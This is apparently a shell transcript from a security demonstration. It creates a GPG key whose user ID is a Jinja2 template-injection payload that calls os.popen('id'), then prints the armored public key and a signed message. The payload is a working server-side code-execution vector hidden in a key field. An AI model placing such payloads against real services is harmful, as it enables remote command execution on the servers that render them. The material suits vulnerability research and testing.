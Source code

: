 ```bash
uid                      {% raw %}{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}{% endraw %} <test@test.com>
sub   rsa3072 2023-09-03 [E]

$ gpg  --armor --export test@test.com
-----BEGIN PGP PUBLIC KEY BLOCK-----

mQGNBGT0oQABDACgGN7WIOlFXOnOZFw2mpVOfQigTmQ5kcX7CJFv6ahoLe6b/nHr
5M1EhN/UUOZhSTRuPn8WpxG8Yv/M28WebLtAqps2n/LbGWJk3iv1PzSScewBcPgl
RW6+RVHTUvT3+7KzdoXU6f788yNbSOLz5T/b1+d+skqClyalwqvZpIKKRr/msKwP
2NEjDgbzrMMg6O2mAkYq8kJ08YkF4TCUBBMXy1hvnoybRFWSJ0KyqBluZBmwnFxM
+3yjXjkfLtgEX0ZfYoR6cPAC8jUMk0Mx5HN8mFULwl7CcS45IM4HmIFIPLlqBzpf
7i6qzZooPKygtGRaxoOawqvO0v6m+P7bv6FL6s3IhgxMtck/8LLD4RfLEWouEUjQ
6v84OSu4MPyuOG089uUh+EFOBYLFICzHJzA7/5P0FSCD+z9gdToPaBXfHUnksNLm
u+8z8LZMOcnfPEI8o1q08m0HSvkxpsyjiWhjqtWgbZNa9UlhvaTHxJ37J/uIFa6x
N1oVI1aDHlz8hJMAEQEAAbRke3tyZXF1ZXN0LmFwcGxpY2F0aW9uLl9fZ2xvYmFs
c19fLl9fYnVpbHRpbnNfXy5fX2ltcG9ydF9fKCdvcycpLnBvcGVuKCdpZCcpLnJl
YWQoKX19IDx0ZXN0QHRlc3QuY29tPokBzgQTAQoAOBYhBMMDEZq+VNuH+0kizK1x
mGZzliolBQJk9KEAAhsDBQsJCAcCBhUKCQgLAgQWAgMBAh4BAheAAAoJEK1xmGZz
liolXUYL/2aIyFz7MuLxKVywAOQ+JTZ0U+IgO/T4MuYEq4ktLWdnbwTrLqcYabk/
k7/9SJ65IXdY+0dfeV/aepaq2LNQ6MMORv4ttoxeUprCj/5tLDY1gYJNxCAM0TYk
gHF5rZ1GokhOEpRCTYRQUUxvTm9Wr/UZDL60RPINstQZGAD860lFnDoWpN8+omzc
x55Sxn4B2DNOJkKUbiATki9mBvgDcKPIxRxVG/i0p5SQu0pZDnHJzYvQrz6WrLvA
9Z2GDwu4uvHu4w0FaCJ8RVuvlhIwrQIOaKGOHH5oI1R2u1aYVhML87N3IcDvDOhs
qVeUIPDmOGK5uIWe55ZJZn2p0lCAiUEHf6XHQvQL0XKJEKY9/CBqzy7gJEt67ukf
yNKVBWTFpvlaVWR5pQgq+oBhuWCLG3DIexP6OQwV0Phptr8dnCCOVUFKEP7XEC1c
eOmg3GT/iLrGp4o8m2SgrwYrOFi4GSownXsli7oZiRAJhVK7RIH4Yh6MNELs2gRb
h9H08ZCnlLkBjQRk9KEAAQwAoG3ekYyYn3ImmnobKCCtOWQlhaBP6mz7f8/6hbpG
gpSpApqIalBEUUP1tSKkVSFh+lS3KTH1fb4alY6QUszA7pThiKhKE+BMlII/Y477
JQNBzsGhq0in0Q5AKD5mW0kgxDRsSPz17ZXpwKEWE2q7Y7LfE9UqgKMn+PbJv3Ee
82mDmZzFO49DkjuZ2Rtt0OADIrXZloPjXJl42P9ay98c7PP5EejSPcio/ou3hyw8
Pb4w48vCsoHvv7ezv1WQGKekcZdW/54IwchOuBmf1NFuc+Dy9TqzJ/hZo+wOFlV1
Zz7d/knJPrMAUMJiBaZeQTUMc+hUqsEUMfOX1LhGFNI5jo5HehVSy+xtCeVhkSSZ
M/SbkSY6a3Op5M8YAHZbbox6UrmR/zCZaikDNkzAyqVIpy0hU5W4gNwPpUqZD/C1
7fjPvuuV+pfUhxNEFfe6MRiIs5ysa5tUcv3e/lro5jTNiZZ/O+k7okAyeLJx1NBG
VDXDzoJGJSVy5Z1LYRiIKse/ABEBAAGJAbYEGAEKACAWIQTDAxGavlTbh/tJIsyt
cZhmc5YqJQUCZPShAAIbDAAKCRCtcZhmc5YqJXoiDACMHLbLDipIZim1oXlMQ8N8
F6hZSNqw+RbKCOT3hPKdTdtO4lIdTxUMmiXvtizYw53rbLveyjPJz9BtWJFkhNVt
9/tm4URbbp66ovCIMjG22Fr5DFs4j/e5yQuUpN3w3hvTPkfUWjDjBEHyREnOEi6a
tJzjicjwffe2Ph+osJfadPe8+qPkyu+uHjvqPTLRXEYguBR622YrsWKOQq0utLxc
VdCTwuv4SPQdigVaPKjIFPZkHj4iDZAZvIvmRkhLyiIgbObzrODhpvJjGMkF2MGL
bOGGmr9JugR/jSKOJHHyWaJYRrGh3/h2X5uaB9SmVFLXgYqgvNM1wNKlxQkzN1Sf
Cg/3t8iazOD8VaWOD31JcI5FyZQXZtLdLd+g3PfaiTCC/lmAR/gx3qP0aO9RZ8E5
E7GRizP4OV/uKNLr4E6cNMURRayk/lD+aZBtNpditGFsW3qm6UhhYApma5kS+te5
HC+lTN4VL/aoTAf0CcdEQdwEIp0sBzBLNK1ElFdARTY=
=Ihvx
-----END PGP PUBLIC KEY BLOCK-----

$ rm test.html.asc ; gpg --sign --armor test.html ; cat test.html.asc
-----BEGIN PGP MESSAGE-----

owGbwMvMwMW4tnBGWvE0LVXGNalJnCWpxSV6GSW5OSlfFrrbgBh2XDYZqYkpdjb6
YIrLJik/pRJI6UNorupqBXMtc4XaWi4um8zcdIXiomRbJUMDPRAy0TO01AcKKino
g3RAjOtk3MzCwMjFICumyHKYWXDWvpDb7b89lc7A3MHKBLKbgYtTACbC0cj932GR
XuJsiZVflCr63Oe/02azX5AQyX4iYqaPQvFFdcaGTXduaDef5ypc4ipRsE1s/aa0
goQXfi0SIiLLi+s932yTLcm3PJTM+irYy3rj4neTm9YKhs+6JfXYaOGXG6cSfogX
2+iXK/xPkucuen/vZhWvcfO66ZNNNtp65D5bUPp8E9vZgvL59ye0iZW85Pi7Puiv
wlv+H0nTAgxdqxxzQ+7WfUlid6myWjYx7nrD97vFD82kI19PP6evpnU77NJ5dzM1
z1mSmiWHK7m4JnzSa6myXNTxdolg8et9BrdS1gpkS7X6t07WmWL2fvlFjsi3+i/b
91T8kD98wIjL3UXO/kruAqGPei3W6csT1syvVXs0XyjIZFrUlVnWVw+y3c7IuFz3
WvEvn+Nvye8K50LMH84Rswu8fKUldyWXBFd9ifOs3ms/Qye7F772r72Wdudgn3ji
ha2PONZc+Xj88UXpLg9WEdOKCoEXX+rM15yTvvE37/qz3E37Pff5LTOp1zBkDk2+
3u+72vp9scSzrrygPBv7m4sA
```